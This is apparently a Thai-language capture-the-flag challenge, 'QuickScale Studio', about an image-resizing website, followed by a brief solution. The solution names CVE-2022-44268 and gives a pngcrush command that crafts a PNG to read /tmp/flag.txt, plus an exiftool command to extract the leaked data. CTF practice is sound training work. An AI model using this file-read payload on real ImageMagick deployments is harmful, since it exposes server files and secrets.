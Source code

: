 # QuickScale Studio

| Category | Difficulty | Point |
| :-: | :-: | :-: |
| Web | Hard | 500 |

สมชายเขาได้ประสบปัญหากับการที่จะที่อยากย่อขนาดรูป แต่ด้วยที่เขาเป็น dev สุดเท่ห์ การจะเข้าไปตัดรูปใน photoshop คงง่ายเกินไปสำหรับเขา เขาจึงทำเว็บไซต์ที่สามารถ ย่อภาพได้ตั้งแต่ 25% - 100% และด้วยการที่จะทำแล้วไว้ใช้คนเดียวคงจะน่าเสียดายแย่ เขาจึงเปิดให้ใช้ฟรี และเวลาก็ล่วงเลยมามากกว่า 2 ปี ในฐานะที่คุณเป็น Cyber Security คุณจึงแนะนำให้ สมชายเช็ค github repo project ว่าโดนเตือนเรื่อง ใช้ version ที่มีช่องโหว่ไหม แต่เขาไม่สนใจ เพราะเขามั่นใจว่าเรามีระบบป้องกันการโดย injection อย่างดี และบอกกับคุณว่าถ้าแน่จริงก็ลอง hack แล้วบอกว่าค่าในไฟล์ `/tmp/flag.txt` คืออะไรหน่อยสิ ทำไม่ได้ละสิหึ

Format: `CSUBRU{...}`

---

No hint

---

Image: `ic-quick-scale-studio`

---

ใช้ CVE-2022-44268 เพื่ออ่านไฟล์ /tmp/flag.txt
ตัวอย่างคำสั่ง craft payload
```bash
pngcrush -text a "profile" "/tmp/flag.txt" Arona.png out.png
```

ให้อัพแล้วโหลดกลับมาแล้วใช้
```bash
exiftool -b filename.png
```

